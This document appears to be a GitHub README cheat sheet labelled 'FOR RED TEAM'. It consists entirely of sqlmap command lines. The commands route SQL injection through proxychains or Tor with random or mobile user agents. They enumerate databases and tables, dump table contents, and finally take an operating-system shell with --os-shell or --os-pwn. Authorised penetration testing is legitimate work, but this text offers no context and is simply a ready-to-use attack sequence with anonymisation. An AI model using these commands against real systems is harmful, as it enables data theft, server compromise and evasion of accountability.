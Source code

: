 <h3>FOR RED TEAM</h3>
<h5>specific tor proxies</h5>
`proxychains sqlmap -r <path/to/request.txt> --random-agent --dbs
`proxychains sqlmap -r <path/to/request.txt> --random-agent -D <database> --tables
`proxychains sqlmap -r <path/to/request.txt> --random-agent -D <database> -T <table> --dump

<h5>random tor proxies</h5>
`sqlmap -r <path/to/request.txt> -tor --random-agent --dbs
`sqlmap -r <path/to/request.txt> -tor --random-agent -D <database> --tables
`sqlmap -r <path/to/request.txt> -tor --random-agent -D <database> -T <table> --dump

<h5>smartphone header</h5>
`sqlmap -r <path/to/request.txt> -tor --mobile --dbs
`sqlmap -r <path/to/request.txt> -tor --mobile -D <database> --tables
`sqlmap -r <path/to/request.txt> -tor --mobile -D <database> -T <table> --dump

<h5>access</h5>
`sqlmap -r <path/to/request.txt> -tor --random-agent -os-shell
OR
`sqlmap -r <path/to/request.txt> -tor --random-agent --os-pwn